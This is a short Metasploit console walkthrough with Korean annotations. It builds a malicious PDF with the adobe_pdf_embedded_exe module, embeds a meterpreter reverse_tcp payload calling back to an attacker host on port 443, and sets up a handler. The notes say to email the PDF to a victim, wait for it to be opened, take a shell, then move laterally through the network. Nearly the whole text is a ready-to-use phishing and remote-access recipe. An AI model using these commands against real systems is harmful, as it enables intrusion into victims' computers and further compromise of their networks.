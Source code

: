 msfconsole  
msf > use exploit/windows/fileformat/adobe_pdf_embedded_exe  
msf exploit(adobe_pdf_embedded_exe) > set payload windows/meterpreter/reverse_tcp  
msf exploit(adobe_pdf_embedded_exe) > set FILENAME meterpreter.pdf  
msf exploit(adobe_pdf_embedded_exe) > set infilename (원본pdf이름)  
msf exploit(adobe_pdf_embedded_exe) > set lhost 192.168.57.10  
msf exploit(adobe_pdf_embedded_exe) > set lport 443  
msf exploit(adobe_pdf_embedded_exe) > exploit  
msf exploit(adobe_pdf_embedded_exe) > use multi/handler  
pdf를 메일로 전송   
victim에서 실행하여 악성파일 추가 생성후 대기  
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp  
msf exploit(handler) > set lhost 192.168.57.10  
msf exploit(handler) > set lport 443  
msf exploit(handler) > exploit  
meterpreter > shell  
이후 tai32.exe 등으로 측면공격 수행  

